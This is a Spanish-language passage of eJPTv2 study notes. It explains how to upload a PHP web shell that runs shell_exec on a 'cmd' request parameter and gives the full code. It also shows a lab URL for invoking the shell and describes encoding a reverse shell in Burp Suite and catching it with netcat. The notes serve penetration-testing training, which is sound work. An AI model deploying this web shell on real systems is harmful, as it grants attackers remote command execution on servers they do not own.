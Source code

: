 Una alternativa al realizar la creación de la shell es subir un archivo ".php" con el siguiente texto:

````
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
`````

Una vez teniendo este archivo creado tendremos que subirlo como haciamos con la ReverseShell. Mediante este archivo podremos modificar la URL de la siguiente forma con tal de conseguir ejecutar comandos directamente en la página.

``http://192.168.1.147/uploads/avatar_arnau_webshell.php?cmd=

Después del "cmd" tendremos que poner el comando que queramos. Para poder ejecutar una ReverseShell desde ahí tendremos que hacer un "encode" mediante la herramienta Burpsuite para que sea legible por la página.

![[2. WEBSHELL.jpg]]

Este código resultante lo pondremos en la URL detrás de "cmd=" y evidentemente tendremos que tener el puerto mediante [[eJPTv2/CONCEPTOS BÁSICOS/1. Netcat]] a la escucha.